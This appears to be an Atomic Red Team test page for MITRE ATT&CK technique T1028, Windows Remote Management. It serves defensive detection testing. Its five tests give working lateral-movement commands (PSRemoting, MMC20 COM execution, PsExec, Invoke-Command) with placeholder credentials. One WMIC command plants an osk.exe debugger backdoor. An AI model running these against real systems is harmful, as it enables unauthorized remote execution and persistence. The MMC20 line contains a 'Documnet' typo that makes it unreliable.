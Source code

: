 # T1028 - Windows Remote Management

## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1028)

<blockquote>Windows Remote Management (WinRM) is the name of both a Windows service and a protocol that allows a user to interact with a remote system (e.g., run an executable, modify the Registry, modify services). (Citation: Microsoft WinRM) It may be called with the <code>winrm</code> command or by any number of programs such as PowerShell. (Citation: Jacobsen 2014)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Enable Windows Remote Management](#atomic-test-1---enable-windows-remote-management)

- [Atomic Test #2 - PowerShell Lateral Movement](#atomic-test-2---powershell-lateral-movement)

- [Atomic Test #3 - WMIC Process Call Create](#atomic-test-3---wmic-process-call-create)

- [Atomic Test #4 - Psexec](#atomic-test-4---psexec)

- [Atomic Test #5 - Invoke-Command](#atomic-test-5---invoke-command)

<br/>

## Atomic Test #1 - Enable Windows Remote Management

Powershell Enable WinRM

Upon successful execution, powershell will "Enable-PSRemoting" allowing for remote PS access.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
Enable-PSRemoting -Force
```

<br/>
<br/>

## Atomic Test #2 - PowerShell Lateral Movement

Powershell lateral movement using the mmc20 application com object.

Reference:

https://blog.cobaltstrike.com/2017/01/24/scripting-matt-nelsons-mmc20-application-lateral-movement-technique/

Upon successful execution, cmd will spawn calc.exe on a remote computer.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| computer_name | Name of Computer | string | computer1|

#### Attack Commands: Run with `powershell`!

```powershell
[activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.application","#{computer_name}")).Documnet.ActiveView.ExecuteShellCommand("c:\windows\system32\calc.exe", $null, $null, "7")
```

<br/>
<br/>

## Atomic Test #3 - WMIC Process Call Create

Utilize WMIC to start remote process.

Upon successful execution, cmd will utilize wmic.exe to modify the registry on a remote endpoint to swap osk.exe with
cmd.exe.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | Target|

#### Attack Commands: Run with `command_prompt`!

```cmd
wmic /user:#{user_name} /password:#{password} /node:#{computer_name} process call create "C:\Windows\system32\reg.exe add \"HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe\" /v \"Debugger\" /t REG_SZ /d \"cmd.exe\" /f"
```

<br/>
<br/>

## Atomic Test #4 - Psexec

Utilize psexec to start remote process.

Upon successful execution, cmd will utilize psexec.exe to spawn cmd.exe on a remote system.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| user_name | Username | String | DOMAIN&#92;Administrator|
| password | Password | String | P@ssw0rd1|
| computer_name | Target Computer Name | String | localhost|
| psexec_exe | Path to PsExec | string | C:&#92;PSTools&#92;PsExec.exe|

#### Attack Commands: Run with `command_prompt`!

```cmd
#{psexec_exe} \\#{computer_name} -u #{user_name} -p #{password} -s cmd.exe
```

#### Dependencies:  Run with `command_prompt`!

##### Description: PsExec tool from Sysinternals must exist on disk at specified location (#{psexec_exe})

##### Check Prereq Commands:

```cmd
if (Test-Path "#{psexec_exe}"") { exit 0} else { exit 1} 
```

##### Get Prereq Commands:

```cmd
Invoke-WebRequest "https://download.sysinternals.com/files/PSTools.zip" -OutFile "$env:TEMP\PsTools.zip"
Expand-Archive $env:TEMP\PsTools.zip $env:TEMP\PsTools -Force
New-Item -ItemType Directory ("#{psexec_exe}") -Force | Out-Null
Copy-Item $env:TEMP\PsTools\PsExec.exe "#{psexec_exe}" -Force
```

<br/>
<br/>

## Atomic Test #5 - Invoke-Command

Execute Invoke-command on remote host.

Upon successful execution, powershell will execute ipconfig on localhost using `invoke-command`.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| host_name | Remote Windows Host Name | String | localhost|
| remote_command | Command to execute on remote Host | String | ipconfig|

#### Attack Commands: Run with `powershell`!

```powershell
invoke-command -ComputerName #{host_name} -scriptblock {#{remote_command}}
```

<br/>
